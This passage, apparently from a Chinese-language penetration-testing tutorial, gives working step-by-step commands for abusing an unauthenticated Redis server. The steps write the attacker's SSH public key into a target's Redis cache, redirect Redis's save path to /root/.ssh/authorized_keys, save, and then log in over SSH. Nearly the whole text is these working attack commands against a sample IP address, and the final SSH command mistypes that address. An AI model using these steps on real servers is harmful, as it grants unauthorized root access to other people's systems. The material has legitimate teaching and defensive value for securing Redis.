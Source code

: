 然后将公钥导入 1.txt 文件 (前后用\\n换行，避免和 Redis 里其他缓存数据混合)，再把 1.txt 文件内容写入目标主机的 redis 缓冲里：

```bash
将公钥导入 1.txt 文件：
(echo -e "\n\n"; cat /root/.ssh/id_rsa.pub; echo -e "\n\n") > 1.txt 
  把 1.txt 文件内容写入目标主机的 redis 缓冲中：
cat 1.txt | redis-cli -h 192.168.1.129 -p 6379 -x set hello
```

[![](assets/1708094050-9afd09fefebf4857d1302bdede1eee37.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621144619-53daafc8-0fff-1.png)

然后使用攻击机连接目标机器 Redis，分别执行如下命令将 ssh 公钥写入目标主机。

```bash
设置 redis 的备份路径为/root/.ssh/：config set dir /root/.ssh
设置保存文件名为 authorized_keys：config set dbfilename authorized_keys
将数据保存在目标服务器硬盘上：save
```

[![](assets/1708094050-f8c1486789cfd7f0c592cb0b603c819c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621144632-5b8a20e6-0fff-1.png)  
写入成功后直接尝试连接：

```bash
ssh 192.128.1.129
```
